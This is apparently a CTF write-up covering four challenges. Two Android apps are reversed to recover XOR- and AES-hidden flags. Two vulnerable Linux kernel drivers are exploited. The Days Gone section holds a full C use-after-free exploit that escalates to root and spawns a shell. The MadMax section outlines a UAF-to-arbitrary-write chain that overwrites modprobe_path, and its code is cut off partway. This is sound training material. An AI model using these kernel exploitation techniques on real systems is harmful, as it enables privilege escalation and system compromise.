








# Android challenges

## Bifrost


Reversing the apk with `jadx-gui` we notice it has a single activity in the `AndroidManifest.xml`

```xml
<activity
    android:theme="@style/LaunchTheme"
    android:name="com.example.bifrost.MainActivity"
    android:exported="true"
    android:taskAffinity=""
    android:launchMode="singleTop"
    android:configChanges="fontScale|layoutDirection|density|smallestScreenSize|screenSize|uiMode|screenLayout|orientation|keyboardHidden|keyboard|locale"
    android:windowSoftInputMode="adjustResize"
    android:hardwareAccelerated="true">
    <meta-data
        android:name="io.flutter.embedding.android.NormalTheme"
        android:resource="@style/NormalTheme"/>
    <intent-filter>
        <action android:name="android.intent.action.MAIN"/>
        <category android:name="android.intent.category.LAUNCHER"/>
    </intent-filter>
</activity>
```

Opening the main activity we notice this is actually a flutter app using a platform channel and loads a native binary `bifrost-lib`. 

```java
package com.example.bifrost;

import E.AbstractActivityC0005f;

/* loaded from: classes.dex */
public final class MainActivity extends AbstractActivityC0005f {

    /* renamed from: g, reason: collision with root package name */
    public static final /* synthetic */ int f446g = 0;

    /* renamed from: f, reason: collision with root package name */
    public final String f447f = "com.example.bifrost/native";

    static {
        System.loadLibrary("bifrost-lib");
    }

    public final native String travel(int i2, String str);
}
```

we decompile the apk with `apktool`

```bash
apktool d bifrost.apk
```

we find the following native binaries at the lib folder. 
* `libapp.so` contains the flutter code written by the developer.
* `libbifrost-lib.so` is the `bifrost-lib` being loaded in the native channel.
* `libflutter.so` contains the flutter engine.
I will be using arm64.

```bash
libapp.so  libbifrost-lib.so  libflutter.so
```

so we fire up ghidra and decompile the arm64 binary. we notice our interesting funtion `Java_com_example_bifrost_MainActivity_travel`.


Analyzing `Java_com_example_bifrost_MainActivity_travel` we notice it is just doing some checks before decrypting a value. And for each check it decrypts with an xor with `0x42` as the key.

```c
for (pbVar1 = DAT_001de5e0; pbVar1 != pbVar21; pbVar1 = pbVar1 + 1) {
            /* try { // try from 001632ec to 001632f7 has its CatchHandler @ 001645d0 */
    std::__ndk1::basic_string<>::push_back((basic_string<> *)local_148,*pbVar1 ^ 0x42);
}
```

So for each decryption we check the corresponding value

(DAT_001de5e0) - Asgard

Code:
```c
*DAT_001de5e0 = 0x30247320;
*(undefined2 *)(DAT_001de5e0 + 1) = 0x3172;
```

Extraction (Little Endian):

> Take `0x30247320` -> Reverse bytes -> `20, 73, 24, 30`

> Take `0x3172` -> Reverse bytes -> `72, 31`

> Encrypted Sequence: `20 73 24 30 72 31`

> Decrypt (XOR 0x42):

> Result: `b1fr0s`

we do that for the rest of the functions and get the hex 

```bash
20 73 24 30 72 31 36 1d 32 2e 76 36 24 72 30 2f 1d 21 2a 76 2c 2c 71 2e 1d 37 2c 73 36 71 77 1d 36 2a 71 1d 2c 76 36 73 34 71 1d 21 72 26 71 1d 36 32 1d 24 2e 37 36 36 71 30
``` 

we use a python script to get the flag

```python
hex_bytes = "20 73 24 30 72 31 36 1d 32 2e 76 36 24 72 30 2f 1d 21 2a 76 2c 2c 71 2e 1d 37 2c 73 36 71 77 1d 36 2a 71 1d 2c 76 36 73 34 71 1d 21 72 26 71 1d 36 32 1d 24 2e 37 36 36 71 30"

bytes_list = [int(x, 16) for x in hex_bytes.split()]
xored = bytes(b ^ 0x42 for b in bytes_list)
print("Flag:", xored.decode())
```
We run it and get the flag

```bash
python3 exploit.py 
Flag: b1fr0st_pl4tf0rm_ch4nn3l_un1t35_th3_n4t1v3_c0d3_tp_flutt3r
```
So easy ... Thor hit the Bifrost and went home


## Knight


Reversing the apk with jadx-gui we get a single activity

```xml
<activity
    android:theme="@style/Theme.Knight"
    android:label="@string/app_name"
    android:name="com.example.knight.MainActivity"
    android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.MAIN"/>
        <category android:name="android.intent.category.LAUNCHER"/>
    </intent-filter>
</activity>
```
In the MainActivity we notice it is a kotlin app and so we try checking out the ui being loaded by composable . We then find a button and find it's logic in `package a;` as follows. 

* Algorithm: `AES/CBC/PKCS5Padding`
* Ciphertext (Base64): `bV1UW9qdTOd5C/lypR1AvS5K47Qvh/ojgjXVAAO82PObQvGNN6tcmTX0ONIjPTsj`
* Secret Key: Stored in variable `jv.b`
* Initialization Vector (IV): Stored in variable `jv.c`

```java
if (rememberedValue5 == companion.getEmpty()) {
    mutableState2 = mutableState6;
    mutableState3 = mutableState5;
    rememberedValue5 = new sc() { // from class: a.ci
        /* JADX WARN: Multi-variable type inference failed */
        @Override // a.sc
        public final Object invoke() {
            boolean z;
            String str2;
            Base64.Decoder decoder;
            byte[] decode;
            String str3 = (String) MutableState.this.getValue();
            ve.j(str3, "input");
            try {
                Cipher cipher = Cipher.getInstance("AES/CBC/PKCS5Padding");
                cipher.init(2, new SecretKeySpec(jv.b, "AES"), new IvParameterSpec(jv.c));
                decoder = Base64.getDecoder();
                decode = decoder.decode("bV1UW9qdTOd5C/lypR1AvS5K47Qvh/ojgjXVAAO82PObQvGNN6tcmTX0ONIjPTsj");
                byte[] doFinal = cipher.doFinal(decode);
                ve.g(doFinal);
                z = ve.e(br.V(str3).toString(), new String(doFinal, n4.f170a));
            } catch (Exception unused) {
                z = false;
            }
            MutableState mutableState8 = mutableState2;
            if (z) {
                mutableState8.setValue(Color.m3917boximpl(ColorKt.Color(4283215696L)));
                str2 = "✅ Correct! Well done, knight!";
            } else {
                mutableState8.setValue(Color.m3917boximpl(ColorKt.Color(4294198070L)));
                str2 = "❌ Incorrect flag. Try harder!";
            }
            mutableState3.setValue(str2);
            return xs.f272a;
        }
    };
    composer3.updateRememberedValue(rememberedValue5);
} else {
    mutableState2 = mutableState6;
    mutableState3 = mutableState5;
}
```

we get the key and the IV

```java
public static final byte[] b = {68, 52, 114, 75, 95, 75, 110, 49, 103, 104, 116, 95, 83, 51, 99, 114, 51, 116, 95, 75, 51, 121, 95, 99, 116, 102, 95, 67, 104, 52, 108, 108};
public static final byte[] c = {66, 52, 116, 95, 73, 86, 95, 68, 52, 114, 107, 95, 75, 110, 105, 103};
```

we create a python script to decrypt the flag 

```python
import base64
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad

# 1. The Encrypted Data from ei.java
b64_cipher = "bV1UW9qdTOd5C/lypR1AvS5K47Qvh/ojgjXVAAO82PObQvGNN6tcmTX0ONIjPTsj"
ciphertext = base64.b64decode(b64_cipher)

# 2. The Key from a.jv (Converted to bytes)
# "D4rK_Kn1ght_S3cr3t_K3y_ctf_Ch4ll"
key = bytes([68, 52, 114, 75, 95, 75, 110, 49, 103, 104, 116, 95, 83, 51, 99, 114, 51, 116, 95, 75, 51, 121, 95, 99, 116, 102, 95, 67, 104, 52, 108, 108])

# 3. The IV from a.jv (Converted to bytes)
# "B4t_IV_D4rk_Knig"
iv = bytes([66, 52, 116, 95, 73, 86, 95, 68, 52, 114, 107, 95, 75, 110, 105, 103])

# 4. Decrypt
try:
    cipher = AES.new(key, AES.MODE_CBC, iv)
    decrypted_bytes = unpad(cipher.decrypt(ciphertext), AES.block_size)
    flag = decrypted_bytes.decode('utf-8')
    
    print("\n========================================")
    print("🚩 FLAG FOUND: " + flag)
    print("========================================\n")
    
except Exception as e:
    print("Decryption failed:", e)
```

running the code we get the flag

```bash
python3 flag.py 

========================================
🚩 FLAG FOUND: k0t_r3v3rs3_kn1ght_n1nj4_07a51b8
========================================
```

Easy ... Even Batman gave it a thumbs-up.


## Days Gone


We are provided with all the files.

```bash
ls
Image outbreak.ko rootfs.ext2 run.sh
```

We start by decompiling our driver and notice the interesting `device_ioctl` function.




Analyzing the `device_ioctl` code we get `0x104`.

```c
if (cmd == 0x104) {
    puVar1 = (ulong *)kmem_cache_alloc(_DAT_00101080,0xcc0);
    uVar2 = _copy_from_user(&idx,(void *)arg,0x30);
    if (uVar2 == 0) {
    *puVar1 = idx;
    puVar1[1] = uStack_28;
    puVar1[2] = local_20;
    puVar1[3] = uStack_18;
    puVar1[4] = local_10;
    puVar1[5] = uStack_8;
    uVar2 = _copy_from_user(&payload_addr,(void *)(arg + 0x30),8);
    if (uVar2 == 0) {
        puVar1[6] = payload_addr; // ⚠️ USER-CONTROLLED WRITE TO KERNEL HEAP!
        printk(&DAT_00100540,puVar1);
        return 0;
    }
    }
    kfree(puVar1);
    return -0xe;
}
```

A user-controlled pointer `payload_addr` is written to offset 48 `puVar1[6]` in a freshly allocated kernel heap chunk. Command `0x100` revealed the weapon structure layout.

```c
if (cmd == 0x100) {
    uVar3 = _copy_from_user(&idx,(void *)arg,8);
    uVar2 = idx;
    if (uVar3 != 0) {
    return -0xe;
    }
    if (idx < 5) {
    if (inventory[idx] != (weapon *)0x0) {
        return -0x11;
    }
    pwVar4 = (weapon *)kmem_cache_alloc(_DAT_00101080,0xcc0);
    inventory[uVar2] = pwVar4;
    builtin_strncpy(inventory[idx]->name,"Drifter Crossbow",0x11);
    inventory[idx]->damage = 0x32;
    pwVar4 = inventory[idx];
    pwVar4->durability = 100;
    pwVar4->attack_func = normal_attack;
    printk(&DAT_001004b0);
    return 0;
    }
}
```

The `attack_func` is stored at `offset 48` in the weapon structure - exactly where command `0x104` writes `payload_addr`

The Attack Chain

> Allocate a weapon `0x100` - Creates a weapon object with attack_func = normal_attack

> Equip it `0x102` - Sets quick_slot pointer to the weapon

```c
  if (cmd == 0x102) {
    uVar2 = _copy_from_user(&idx,(void *)arg,8);
    if (uVar2 != 0) {
      return -0xe;
    }
    if ((idx < 5) && (inventory[idx] != (weapon *)0x0)) {
      quick_slot = inventory[idx];
      printk(&DAT_001004e0);
      return 0;
    }
  }
```

> Free it `0x101` - Frees the weapon memory but `quick_slot` still points to it (Use-After-Free)

```c
else if (cmd == 0x101) {
    uVar2 = _copy_from_user(&idx,(void *)arg,8);
    if (uVar2 != 0) {
    return -0xe;
    }
    if ((idx < 5) && (inventory[idx] != (weapon *)0x0)) {
    kfree();
    inventory[idx] = (weapon *)0x0;
    printk(&DAT_00100510);
    return 0;
    }
}
```

> Craft with payload `0x104` - Allocates new chunk in same heap location, overwrites `offset 48` with controlled pointer

> Trigger execution `0x103` - Calls `(*quick_slot->attack_func)()` which now points to our controlled address

```c
if ((cmd == 0x103) && (quick_slot != (weapon *)0x0)) {
    printk(&DAT_00100568);
    (*quick_slot->attack_func)();
    return 0;
}
```

we use `kallsyms` inside the machine using `root:boozer` to get the address of our target function `secret_cure_injection`

```bash
# cat /proc/kallsyms | grep "secret_cure_injection"
ffff800008e5c39c t secret_cure_injection	[outbreak]
```

```bash
void secret_cure_injection(void) {
  printk(&DAT_001005c8);
  printk(&DAT_00100600);
  prepare_kernel_cred(0);
  commit_creds();
  return;
}
```

### Exploitation strategy

STEP 1 — Allocate weapon

```bash
weapon chunk allocated
attack_func = normal_attack
quick_slot = weapon
```

STEP 2 — Free weapon (UAF created)
```bash
quick_slot → [ FREED MEMORY ]
```

STEP 3 — Reallocate same chunk (0x104)
```bash
kernel allocates puVar1 in EXACT same spot
puVar1[6] = payload_addr
```

STEP 4 — Overwrites old attack_func
```bash
quick_slot->attack_func = payload_addr
```
STEP 5 — Trigger function call (0x103)
```bash
call quick_slot->attack_func()
→ jumps into payload_addr
```



we craft our exploit 

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/ioctl.h>
#include <stdint.h>

#define DEVICE_PATH "/proc/daysgone"

#define IOCTL_CREATE_WEAPON   0x100
#define IOCTL_SCRAP_WEAPON    0x101
#define IOCTL_EQUIP_WEAPON    0x102
#define IOCTL_USE_QUICKSLOT   0x103
#define IOCTL_CRAFT_WEAPON    0x104

// KASLR disabled, target function memory address

static uintptr_t target_function = 0xffff800008e5c39c;

struct craft_data {
    char data[48];
    uint64_t func_ptr;
} __attribute__((packed));

int try_exploit(int fd, unsigned long target) {
    uint64_t slot;
    struct craft_data craft;

    // create weapon
    slot = 0;
    ioctl(fd, IOCTL_CREATE_WEAPON, &slot);

    // equip
    slot = 0;
    ioctl(fd, IOCTL_EQUIP_WEAPON, &slot);

    // free (UAF)
    slot = 0;
    ioctl(fd, IOCTL_SCRAP_WEAPON, &slot);

    // craft with target addr
    memset(&craft, 0, sizeof(craft));
    craft.func_ptr = target;
    ioctl(fd, IOCTL_CRAFT_WEAPON, &craft);

    // trigger
    ioctl(fd, IOCTL_USE_QUICKSLOT, NULL);

    return (getuid() == 0);
}

int main(int argc, char *argv[]) {
    int fd, i;
    unsigned long target;

    printf("[*] Days Gone Exploit\n");

    fd = open(DEVICE_PATH, O_RDWR);
    if (fd < 0) {
        perror("[-] open");
        return 1;
    }

    printf("[*] Trying 0x%lx\n", target_function);

    if (try_exploit(fd, target_function) && getuid() == 0){
        goto root;
    }

    printf("[-] Failed\n");
    close(fd);
    return 1;

root:
    close(fd);
    printf("[+] Got root!\n");

    FILE *f = fopen("/root/pwned.txt", "w");
    if (f) {
        fprintf(f, "pwned\n");
        fclose(f);
        printf("[+] /root/pwned.txt created\n");
    }

    system("/bin/sh");
    return 0;
}
```

we compile it statically to avoid any linking issues

```bash
aarch64-linux-gnu-gcc -static -o exploit exploit.c
```

we `run.sh` to get the kernel running using qemu. we proceed and copy the driver to the machine.

```bash
scp -P 10021 -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null outbreak.ko root@127.0.0.1:/root
Warning: Permanently added '[127.0.0.1]:10021' (ED25519) to the list of known hosts.
root@127.0.0.1's password: 
outbreak.ko 
```

we use `root:boozer` to load our driver

```bash
============== DAYS GONE =============
daysgone login: root
Password: 
# ls
outbreak.ko
# insmod outbreak.ko 
[  136.433892] outbreak: loading out-of-tree module taints kernel.
[  136.442960] Welcome to Days Gone: The Outbreak.
# 
```

we push the exploit to eternal

```bash
scp -P 10021 -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null exploit eternal@127.0.0.1:/home/eternal
Warning: Permanently added '[127.0.0.1]:10021' (ED25519) to the list of known hosts.
eternal@127.0.0.1's password: 
exploit 
```

we then login as `eternal:cipher` to run the exploit. Boom we are in 



Not impossible, but tough enough that Deacon, Boozer, and a zombie had to sing along to stay sane


## MadMax


We decompile the driver with ghidra and we notice an interesting function `device_ioctl`.




Now The kernel module defines two global arrays:

* `garage[10]` → array of `war_rig` structures
* `tanker[10]` → array of `guzzoline` structures

Each array acts like a simple object store.
The driver exposes five ioctl() commands:

* `0x100`	Allocate a war_rig object
* `0x101`	Free (kfree) a war_rig
* `0x102`	Allocate a guzzoline payload
* `0x103`	Copy a pointer out to userland
* `0x104`	Copy a pointer in from userland


```c
long device_ioctl(file *file,uint cmd,ulong arg)

{
  ulong uVar1;
  ulong *puVar2;
  bool bVar3;
  ulong uVar4;
  guzzoline *pgVar5;
  ulong uVar6;
  long lVar7;
  war_rig *pwVar8;
  ulong idx;
  
  if (cmd == 0x102) {
    uVar6 = _copy_from_user(&idx,(void *)arg,8);
    uVar4 = idx;
    if (uVar6 == 0) {
      if ((idx < 10) && (tanker[idx] == (guzzoline *)0x0)) {
        pgVar5 = (guzzoline *)kmem_cache_alloc(_DAT_00101078,0xcc0);
        tanker[uVar4] = pgVar5;
        uVar4 = _copy_from_user(tanker[idx],(void *)(arg + 8),0x40);
        if (uVar4 != 0) {
          kfree(tanker[idx]);
          return -0xe;
        }
        return 0;
      }
      return -0x11;
    }
  }
  else if (cmd < 0x103) {
    if (cmd != 0x100) {
      if (cmd == 0x101) {
        uVar4 = _copy_from_user(&idx,(void *)arg,8);
        if (uVar4 != 0) {
          return -0xe;
        }
        if (9 < idx) {
          return -0x16;
        }
        if (garage[idx] != (war_rig *)0x0) {
          kfree();
          printk(&DAT_001004a8,idx);
          return 0;
        }
      }
      return 0;
    }
    uVar6 = _copy_from_user(&idx,(void *)arg,8);
    uVar4 = idx;
    if (uVar6 == 0) {
      if (9 < idx) {
        return -0x11;
      }
      if (garage[idx] != (war_rig *)0x0) {
        return -0x11;
      }
      pwVar8 = (war_rig *)kmem_cache_alloc(_DAT_00101078,0xcc0);
      garage[uVar4] = pwVar8;
      garage[idx]->fuel_line = reserve_tank;
      garage[idx]->capacity = 0x80;
      printk(&DAT_00100488);
      return 0;
    }
  }
  else if (cmd == 0x103) {
    uVar4 = _copy_from_user(&idx,(void *)arg,8);
    if (uVar4 == 0) {
      if ((9 < idx) || (garage[idx] == (war_rig *)0x0)) {
        return -0x16;
      }
      puVar2 = (ulong *)sp_el0;
      uVar4 = arg + 8;
      if (((*(uint *)((long)puVar2 + 0x2c) >> 0x15 & 1) != 0) ||
         (uVar6 = uVar4, (*puVar2 & 0x4000000) != 0)) {
        uVar6 = (long)(uVar4 * 0x100) >> 8 & uVar4;
      }
      bVar3 = 0xfffffffffffffff7 < uVar6;
      uVar6 = uVar6 + 8;
      uVar1 = 0;
      if (!bVar3 || uVar6 == 0) {
        uVar1 = puVar2[1];
      }
      if (bVar3) {
        uVar6 = 0xffffffffffffffff;
      }
      if (!CARRY8(uVar6,~uVar1) && !CARRY8(uVar6 + ~uVar1,(ulong)bVar3) || uVar6 == uVar1 + !bVar3)
      {
        lVar7 = sp_el0;
        if (((long)(uVar4 * 0x100) >> 8 & uVar4 & (*(ulong *)(lVar7 + 8) ^ 0xffffffffffffffff)) != 0
           ) {
          uVar4 = 0;
        }
        lVar7 = __arch_copy_to_user(uVar4,garage[idx]->fuel_line,8);
        if (lVar7 == 0) {
          return 0;
        }
      }
    }
  }
  else {
    if (cmd != 0x104) {
      return 0;
    }
    uVar4 = _copy_from_user(&idx,(void *)arg,8);
    if (uVar4 == 0) {
      if (9 < idx) {
        return -0x16;
      }
      if (garage[idx] == (war_rig *)0x0) {
        return -0x16;
      }
      uVar4 = _copy_from_user(garage[idx]->fuel_line,(void *)(arg + 8),8);
      if (uVar4 == 0) {
        printk(&DAT_001004c8,garage[idx]->fuel_line);
        return 0;
      }
    }
  }
  return -0xe;
}
```

### Root Cause: A Use-After-Free (UAF)

```c
if (garage[idx] != (war_rig *)0x0) {
    kfree();
    printk(&DAT_001004a8,idx);
    return 0;
}
```

### Bug 1: It frees the object but DOES NOT NULL the pointer. After freeing.

```c
garage[idx] → still points to freed memory
```
So the array contains a dangling pointer.

### Exploitation Primitive #1: Reallocate Freed Slot

Because the driver uses normal kmalloc caches, freeing a slot means that memory becomes available for reallocation by something else. we can do this

```c
alloc_object(i);
free_object(i);
alloc_payload(i);   ← reclaims same freed memory (kmalloc-128)
```

Now

```c
garage[i] → points to memory containing a *different object*
```

### Exploitation Primitive #2: Turning UAF Into Arbitrary Read

The driver’s read ioctl

```c
__arch_copy_to_user(uVar4, garage[idx]->fuel_line, 8);
```

It blindly trusts the pointer `garage[idx]->fuel_line`.
But after reallocation, this memory region is under attacker-controlled layout.

We can overwrite what was originally:

```c
struct war_rig {
    u64 fuel_line;
    u64 capacity;
}
```

and replace `fuel_line` with a chosen address.

So `CMD_READ_POINTER` becomes:

```c
copy_to_user(user_buffer, <address you chose>, 8 bytes)
```

now we have arbitrary kernel memory read.

### Exploitation Primitive #3: Arbitrary Write

Similarly, the write ioctl:

```c
_copy_from_user(garage[idx]->fuel_line, (void *)(arg + 8), 8);
```

writes to:

```c
*(garage[idx]->fuel_line) = attacker_data
```

Again, since `fuel_line` now contains a chosen address, we now have arbitrary kernel write.

```bash
UAF → fake object → arbitrary read/write → full kernel compromise
```

### Escalation Strategy

Once arbitrary read/write exists, the rest of the exploit follows a typical privilege-escalation chain:

* Leak a kernel pointer :
We read from the reallocated memory to leak a pointer to kernel text, allowing relocation of the kernel's base.

* Compute modprobe_path :
A common technique: kernel executes the binary specified by `/proc/sys/kernel/modprobe` when handling unknown file types.

* Overwrite modprobe_path :
arbitrary write change the global variable to `/tmp/a`.

* Trigger modprobe : 
Running a binary with invalid header causes kernel to attempt modprobe, executing our script.



we craft our exploit

```c
#define _GNU_SOURCE
#include <sys/ioctl.h>
#include <string.h>
#include <stdlib.h>
#include <stdint.h>
#include <stdio.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/msg.h>
#include <sched.h>

// IOCTL commands
#define CMD_ALLOC_OBJECT    0x100
#define CMD_FREE_OBJECT     0x101
#define CMD_ALLOC_PAYLOAD   0x102
#define CMD_READ_POINTER    0x103
#define CMD_WRITE_POINTER   0x104

int device_fd = -1;
int current_slot = 0;
int spray_fds[500];
int msg_queues[100];

struct payload_data {
    char data[0x40];
};

int alloc_object(uint64_t idx) {
    uint64_t arg = idx;
    int ret = ioctl(device_fd, CMD_ALLOC_OBJECT, &arg);
    if (ret == 0) {
        printf("[SUCCESS] Allocated object at slot[%lu]\n", idx);
    } else {
        printf("[ERROR] Failed to allocate object at slot[%lu]: ret=%d\n", idx, ret);
    }
    return ret;
}

int free_object(uint64_t idx) {
    uint64_t arg = idx;
    int ret = ioctl(device_fd, CMD_FREE_OBJECT, &arg);
    if (ret == 0) {
        printf("[TRIGGER] Freed object at slot[%lu] (UAF activated)\n", idx);
    } else {
        printf("[ERROR] Failed to free object at slot[%lu]: ret=%d\n", idx, ret);
    }
    return ret;
}

int alloc_payload(uint64_t idx, struct payload_data *data) {
    struct {
        uint64_t idx;
        char data[0x40];
    } arg;
    arg.idx = idx;
    memcpy(arg.data, data->data, 0x40);
    int ret = ioctl(device_fd, CMD_ALLOC_PAYLOAD, &arg);
    if (ret == 0) {
        printf("[SUCCESS] Allocated payload at slot[%lu]\n", idx);
    } else {
        printf("[ERROR] Failed to allocate payload at slot[%lu]: ret=%d\n", idx, ret);
    }
    return ret;
}

int read_pointer(uint64_t idx, uint64_t *out) {
    struct {
        uint64_t idx;
        uint64_t data;
    } arg;
    arg.idx = idx;
    arg.data = 0;
    int ret = ioctl(device_fd, CMD_READ_POINTER, &arg);
    if (ret == 0) {
        *out = arg.data;
        printf("[READ] Slot[%lu]->pointer = 0x%lx\n", idx, *out);
    } else {
        printf("[ERROR] Failed to read from slot[%lu]->pointer: ret=%d\n", idx, ret);
    }
    return ret;
}

int write_pointer(uint64_t idx, uint64_t data) {
    struct {
        uint64_t idx;
        uint64_t data;
    } arg;
    arg.idx = idx;
    arg.data = data;
    int ret = ioctl(device_fd, CMD_WRITE_POINTER, &arg);
    if (ret == 0) {
